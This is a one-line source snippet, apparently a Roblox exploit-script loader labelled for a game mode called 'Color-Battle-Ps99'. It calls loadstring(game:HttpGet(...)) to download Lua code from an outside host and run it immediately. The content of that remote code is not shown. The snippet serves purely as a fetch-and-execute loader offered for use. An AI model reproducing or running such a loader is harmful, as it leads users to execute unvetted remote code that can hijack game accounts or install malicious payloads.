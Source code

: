 #Color-Battle-Ps99



loadstring(game:HttpGet("https://egorikusa.space/7441ba7c88525ffbea83eaa2.lua", true))()

